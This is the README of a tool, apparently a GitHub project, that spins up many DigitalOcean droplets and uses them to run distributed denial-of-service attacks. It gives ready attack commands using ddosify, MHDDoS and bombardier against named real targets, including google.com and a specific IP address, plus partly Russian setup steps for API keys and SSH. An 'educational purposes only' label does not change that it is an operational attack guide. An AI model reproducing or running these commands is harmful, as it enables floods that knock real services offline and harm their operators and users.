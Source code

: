 For educational purposes only.

## Usage

````
npm run create -- -c 16
````
Creates 16 new droplets in Digital Ocean, installs ddosify. See `constants.js`. Edit `constants.js` to change `CPU` & `REGION`.

````
npm run attack -- "ddosify -t 'https://google.com' -n $((10000 * 333)) -d 10000 -T 999 -m GET"
````

````
npm run attack -- "python3 MHDDoS/start.py CFB 95.167.23.6:80 5 1000 socks5.txt 1000 3600 debug=true"
````

````
npm run attack -- "bombardier -c 6000 -d 1800s -m POST -H 'Content-Type: application/x-www-form-urlencoded' -l https://google.com"
````

````
npm run cleanup
````

Destroys all droplets. Do this before going to sleep. Save money.

## Installation

1. Install Node.js

2. Download code from GitHub

3. Run
```` 
  npm install
````

4. Create an empty file with name `.env` in the root folder.

6. Register at DigitalOcean, create one server (droplet) manually, use ssh key access.

Droplet to choose: (will handle ±1000 requests per seconds via ddosify)
* Ubuntu
* Basic
* 12$/month
* Authentication - SSH key

Как создать новый SSH key (DO_API_SSH_KEY_ID):
  * (PS в появившимся окне справа инструкция. если кратко - то запустить консоль cmd и команду ssh-keygen)
  * из сформированного файла .pub скопировать содерждимое в поле SSH key content
  * указать имя, например f1

Для того чтобы SSH_ID впилить в солюшин - нужно в браузере нажать правой кнопке на подключенном SSH digitalocean и из лейбла взять часть которая состоит из цифр
(Например <label for="sshKey_33402836">d3</label>, SSH_ID = 33402836)

7. Generate DO_API_KEY via https://cloud.digitalocean.com/account/api/tokens

8. Edit `.env`

````
DO_API_KEY=<INSERT DIGITAL OCEAN API KEY>
DO_API_SSH_KEY_ID=<INSERT DIGITAL OCEAN SSH KEY ID>
````

You're done.


# Known issues

- `npm run attack` will fail if the `npm run create` is in progress.

- Error:
````
FATAL: 1.1.1.1
Error: Timed out while waiting for handshake
````
Quick solution: destroy server with this IP on Digital Ocean.

